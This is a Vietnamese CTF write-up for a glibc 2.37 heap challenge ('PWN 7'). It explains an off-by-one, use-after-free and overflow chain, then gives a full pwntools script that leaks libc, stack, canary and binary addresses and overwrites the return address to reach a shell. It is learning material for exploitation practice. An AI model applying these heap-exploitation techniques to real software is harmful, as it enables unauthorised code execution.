# PWN 7



Đề bài cho ta 1 file `elf` và `glibc 2.37`. Giờ chúng ta sẽ đi vào phân tích binary:

## Overview



Tại hàm `main` chương trình loop và ta lựa chọn các option. Ta sẽ đi vào phân tích từng hàm:

1. `create_note`



- Hàm này cho phép ta tạo 1 note bao gồm `title` và `content`. Ta chỉ được tạo chunk có kích thước `<= 0x400` 

- Offset của chunk chứa content được gán vào cuối chunk note:



2. `edit_note`



Trong `edit_note`, ta có thể lựa chọn xem thay đổi `title` hay `content`:



Chương trình sẽ đọc `(size_chunk - 0x10)` byte vào `title addr`.



Khác với `edit_title`, `edit_content` sẽ tạo chunk mới với size ta nhập vào, `free chunk` cũ đi

3. `view_note`



Hàm này sẽ sử dụng `strcpy()` để lấy str rồi print ra. 

4. `delete_note`



Hàm xóa note sẽ `free chunk` và xóa cả `ptr`. Vậy không có lỗi gì ở đây cả.

## Exploit

Ta để ý ở hàm `read_Str()` khi đọc xong thì sẽ thêm byte `0` ở cuối. Mà ngay sau `title` là địa chỉ đến chunk chứa `content` . Từ đó ta có thể thay đổi 1 byte cuối của offset khi `edit_title`:



Vậy sau khi thay đổi, ta có địa chỉ của `content` chính là địa chỉ của `title` => ta có thể sử dụng được bug `uaf`. 

- Vì `tcache bin` 1 size list chỉ chứa được tối đa 7 phần tử => khi free chunk thứ 8 cùng kích thước thì chunk đó sẽ được chuyển đến `unsorted bin`. Kết hợp với `uaf` ta hoàn toàn có thể leak được `libc addr` bằng cách free content chunk thông qua `edit_content` rồi sử dụng `view_note` để leak:



- Do `edit_title` đọc `(size_chunk - 0x10)` byte vào `title addr` vậy sẽ ra sao nếu ta thay đổi size chunk. Ta sẽ có lỗi heap overflow => có thể thay đổi content addr => leak được mọi thứ:



Vì content size chương trình sẽ lấy từ chính `(size_chunk - 0x10)`
nên mình cố ý để size ở đằng trước là `0x61`. 



Sau đó ta edit content với chính size đó thì chương trình sẽ `free` rồi `malloc` lại chính chunk đó. => Overwrite được size_chunk của title chunk bên dưới => overwrite offset content => leak everything

- Do `edit_title()` sẽ read input vào `s[1032]` trước. Mà kích thước đọc vào là  `(size_chunk - 0x10)` có thể kiểm soát được theo cách trên. => Ta có `buffer overflow` 



Ở trong binary ta có 1 hàm tạo shell nên nhiệm vụ là change `ret_addr`. Nhưng trước tiên ta cần leak `binary_addr`, `canary`.

- Ta đã biết `libc_addr` vậy nên leak giá trị của biến `environ` trong `libc` thì ta sẽ leak được stack offset => leak được binary

- Trong libc có tls lưu trữ giá trị canary => ta leak được canary khi đọc giá trị :



Như vậy ta đã đủ những thứ cần thiết, giờ change `ret_addr` thôi!!!

### Solve script

```python

#!/usr/bin/env python3

from pwn import *

exe = ELF("./pwn7_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.37.so")

context.binary = exe


info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b* main +54
        b* view_note +165
        b* edit_title +181
        c
        ''')
        sleep(1)
def create_note(idx,title_size,title,content_size,content):
    slna("> ",1)
    slna("Index: ",idx)
    slna("Title size:",title_size)
    sla("Title: ",title)
    slna("Content size:",content_size)
    sla("Content",content)
def edit_title(idx,title):
    slna("> ",2)
    slna("Index: ",idx)
    slna("> ",1)
    sla("New title: ",title)
    slna("> ",3)

def edit_content(idx,content_size, content):
    slna("> ",2)
    slna("Index: ",idx)
    slna("> ",2)
    slna("Content size:",content_size)
    sla("Content",content)
    slna("> ",3)

def view_note(idx):
    slna("> ",3)
    slna("Index: ",idx)
def delete_note(idx):
    slna("> ",4)
    slna("Index: ",idx)
if args.REMOTE:
    p = remote('')
else:
    p = process([exe.path])

def leak(addr,check):
    payload = b'a'*8
    payload += p64(0x61)
    edit_content(7,0x50,payload)  # change heap size 

    edit_title(4,b'a'*0x40 + p64(addr))

    payload = b'a'*8
    payload += p64(0x51)
    edit_content(7,0x50,payload)  # change heap size

    view_note(4)
    p.recvuntil("Content: ")
    if check:
        leak = u64(p.recv(6)+b'\0\0')
    else:
        leak = u64(p.recv(8))
    return leak


create_note(0,0x80,b'title',0x80,b'content')
create_note(1,0x80,b'title',0x80,b'content')
create_note(2,0x80,b'title',0x80,b'content')
create_note(3,0x80,b'title',0x60,b'content') 
GDB()
create_note(5,0x80,b'title',0x60,b'content')

delete_note(0)

delete_note(1)
delete_note(2)
delete_note(3)


edit_title(5,b'a'*0x80)
edit_content(5,0x130,b'new content')

view_note(5)
p.recvuntil("Title: ")

leak_libc = u64(p.recv(6)+b'\0\0')
info("leak libc: "+ hex(leak_libc))
libc.address = leak_libc - 0x1f6d60
info("libc addr: "+ hex(libc.address))

create_note(0,0x80,b'title_again',0x80,b'content_again')
create_note(1,0x80,b'title_again',0x80,b'content_again')
create_note(2,0x80,b'title_again',0x80,b'content_again')

create_note(3,0x80,b'title_again',0x80,b'content_again')

payload = b'a'*0x38
payload += p64(0x61)

create_note(6,0x70,b'title',0x40,payload)

create_note(4,0x40,b'title_victim',0x10,b'content')
create_note(7,0x40,b'title_victim',0x10,b'content')


edit_title(7,b'a'*0x40)

leak_stack = leak( libc.sym['environ'],1)
info("leak stack: "+ hex(leak_stack))

info("tls canary: "+ hex(libc.address -0x2898))

leak_canary = leak(libc.address - 0x2897, 0)
leak_canary = (leak_canary << 8 ) & 0xffffffffffffffff
info("leak canary: "+ hex(leak_canary) )

leak_binary = leak(leak_stack - 0x110,1)
info("leak binary: "+ hex(leak_binary) )

exe.address = leak_binary - 0x1ce1

leak_heap = leak(exe.address +0x4068,1)

heap_base = leak_heap >> 12 << 12

info ("heap: " + hex(heap_base))


payload = b'a'*8
payload += p64(0x441)
edit_content(7,0x50,payload)  # change heap size to 0x441

payload = b'a'*0x408
payload += p64(leak_canary)
payload += p64(1)
payload += p64(exe.sym['read_function']+5)
slna("> ",2)
slna("Index: ",4)
slna("> ",1)
sla("New title: ",payload)

p.interactive()

```


